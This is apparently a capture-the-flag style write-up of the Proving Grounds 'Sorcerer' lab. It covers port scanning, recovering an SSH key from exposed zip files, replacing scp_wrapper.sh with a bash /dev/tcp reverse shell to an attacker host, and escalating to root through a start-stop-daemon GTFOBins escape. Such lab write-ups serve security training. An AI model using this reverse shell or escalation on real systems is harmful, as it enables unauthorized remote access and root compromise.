 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.206.100 -T4 -oN Sorcerer.nmap
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h04m29s_001_.png)

The website on 80 port only displays text messages, checking the code to confirm that it is only plain text.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h36m59s_009_.png)

No special directory was found during the scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h21m34s_002_.png)

The attempt to log in with common credentials failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h19m21s_003_.png)

Checking the code looks like the page is no actual login function.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h26m45s_006_.png)

If there is no actual login function, there may be hidden directories. The directory scan shows two directories zipfiles and default.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h31m18s_007_.png)

There are four compressed files in the zipfiles directory.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h51m19s_010_.png)

The default directory is the same as the website on port 80. It only displays text messages.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_20h55m00s_011_.png)

Find ssh folder in max.zip. When trying to login with private key, it is found that ssh login has been forbidden. Only scp can be used.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_23h58m36s_014_.png)

Try to use `scp` to upload and download website directories, but there is nothing special found, and PHP should not be able to use.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.27_00h01m13s_015_.png)

Reexamine scp_wrapper.sh in max.zip. After searching, I know that scp_wrapper.sh is used to set a program that does not allow ssh login. We can change scp_wrapper.sh to get the reverse shell.

scp_wrapper.sh: [setting reference](https://serverfault.com/questions/83856/allow-scp-but-not-actual-login-using-ssh) 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.26_23h56m06s_013_.png)

Modify the source code of scp_wrapper.sh.

```
#!/bin/bash
/bin/bash -l > /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1
```
Then use the `scp` command to upload wrapper.sh with reverse shell content.

```
scp -i ~/Downloads/id_rsa ~/Documents/OffSecPG/Sorcerer/scp_wrapper.sh max@<RHOST>:/home/max
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.27_00h42m14s_016_.png)

Monitor port 80 to execute ssh login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.27_00h46m13s_017_.png)

Get the reverse shell connection and local.txt successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.27_00h48m49s_019_.png)

#### Privilege Escalation

The linpeas.sh find that /usr/sbin/start-stop-daemon is run by root.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.27_01h16m54s_020_.png)

Find instructions in [GTFOBins](https://gtfobins.github.io/) to elevate permissions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.27_15h59m02s_001_.png)

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Sorcerer/Sorcerer_2021.06.27_01h26m46s_022_.png)
